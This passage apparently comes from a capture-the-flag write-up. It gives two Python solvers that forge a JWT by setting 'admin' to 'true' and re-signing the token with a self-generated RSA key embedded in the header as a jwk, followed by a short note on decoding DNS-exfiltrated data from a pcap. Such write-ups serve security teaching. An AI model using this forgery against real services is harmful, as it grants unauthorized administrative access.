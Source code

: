 ```py
```
## Server
Honestly, that problem took us much more time than it deserves.
You are given a jwt token which was signed by a private key. Your task is to alter the message and send it to the server with a valid signature. The vulnerability here is that the header contains the public key. So, the solution was simply through this public key. Change what you need in the token and sign it with any private key and send it with the header of your public key and make sure you have got the correct encodings.
### code of duty approach:
The public and private keys were generated previously and loaded from a file.
```py
def server_solver(question):
    decoded_payload = jwt.decode(question, options={"verify_signature": False})
    decoded_header = jwt.get_unverified_header(question)

    decoded_header['jwk']['e'] = _encode64Int(public_key.public_numbers().e)
    decoded_header['jwk']['n'] = _encode64Int(public_key.public_numbers().n)
    decoded_payload['admin'] = "true"
    jwt_token = jwt.encode(decoded_payload, private_key, algorithm="RS256", headers=decoded_header)
```
### respectively approach:
```py
def server_solver(question):
    payload = jwt.decode(question, options={"verify_signature": False}, algorithms=["RS256"])
    payload['admin'] = "true"

    private_key = rsa.generate_private_key(
        public_exponent=65537,
        key_size=2048,
    )

    # Serialize the private key to PEM format
    pem_private_key = private_key.private_bytes(
        encoding=serialization.Encoding.PEM,
        format=serialization.PrivateFormat.PKCS8,
        encryption_algorithm=serialization.NoEncryption(),
    )

    # Generate the public key from the private key
    public_key = private_key.public_key()

    # Serialize the public key to PEM format
    pem_public_key = public_key.public_bytes(
        encoding=serialization.Encoding.PEM,
        format=serialization.PublicFormat.SubjectPublicKeyInfo,
    )

    jwk_public_key = jwk.JWK.from_pem(pem_public_key)

    new_token = jwt.encode(payload, key=pem_private_key, algorithm='RS256', headers={'jwk': jwk_public_key,
                                                                                     'kid': jwk_public_key["kid"]})

    return new_token
```
## PCAP
Giving a pcap file, and you know that the server was DNS exfiltrated from a specific IP you need to get what information was leaked.
Just filter the packets with the IP again, decode the subdomains with base64 and that's it.